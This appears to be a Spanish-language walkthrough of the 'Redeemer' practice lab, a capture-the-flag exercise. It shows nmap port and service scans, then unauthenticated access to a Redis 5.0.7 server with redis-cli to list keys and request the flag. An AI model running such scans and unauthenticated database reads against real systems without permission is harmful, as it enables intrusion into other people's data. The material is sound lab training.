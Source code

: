 # Redeemer

🗹 Verificar si el host está activo:

```shell
ping -c 1 10.129.130.151

PING 10.129.130.151 (10.129.130.151) 56(84) bytes of data.
64 bytes from 10.129.130.151: icmp_seq=1 ttl=63 time=166 ms

--- 10.129.130.151 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 165.615/165.615/165.615/0.000 ms
```

> **Sistema operativo**: Linux

🗹 Identificar puertos abiertos y qué servicios están corriendo:

```shell
sudo nmap -p- -sS --open --min-rate 5000 -n -Pn -vv 10.129.130.151 -oG openPorts

PORT     STATE SERVICE REASON
6379/tcp open  redis   syn-ack ttl 63
```

🗹 Ejecutar scripts para recopilar información adicional:

```shell
sudo nmap -p 6379 -sCV 10.129.130.151 -oN targeted

PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7
```

| Puerto | Servicio | Versión                     |
| ------ | -------- | --------------------------- |
| 6379   | redis    | Redis key-value store 5.0.7 |

¿Qué es **Redis**?  
[Web Oficial](https://redis.io/)

🗹 Buscar scripts de **nmap** relacionados al servicio **redis**:

```shell
find /usr/share/nmap/scripts -name *redis* 2>/dev/null

/usr/share/nmap/scripts/redis-info.nse
/usr/share/nmap/scripts/redis-brute.nse
```

🗹 Ejecutar scripts relacionados al servicio **redis** sobre el puerto **6379**:

```shell
sudo nmap -p 6379 --script "*redis*" 10.129.130.151

PORT     STATE SERVICE
6379/tcp open  redis
| redis-info: 
|   Version: 5.0.7
|   Operating System: Linux 5.4.0-77-generic x86_64
|   Architecture: 64 bits
|   Process ID: 752
|   Used CPU (sys): 2.199500
|   Used CPU (user): 2.184066
|   Connected clients: 1
|   Connected slaves: 0
|   Used memory: 839.48K
|   Role: master
|   Bind addresses: 
|     0.0.0.0
|     ::1
|   Client connections: 
|_    10.10.14.71
```

🗹 Acceder a la base de datos de **redis**:

```shell
redis-cli -h 10.129.130.151

10.129.130.151:6379> 
```
# Flag

 🗹 Ejecutar los siguientes comandos para obtener la flag:

```shell
10.129.130.151:6379> info keyspace
# Keyspace
db0:keys=4,expires=0,avg_ttl=0
(1.23s)
10.129.130.151:6379> select 0
OK
10.129.130.151:6379> keys *
1) "flag"
2) "temp"
3) "numb"
4) "stor"
(1.05s)
10.129.130.151:6379> get flag
```
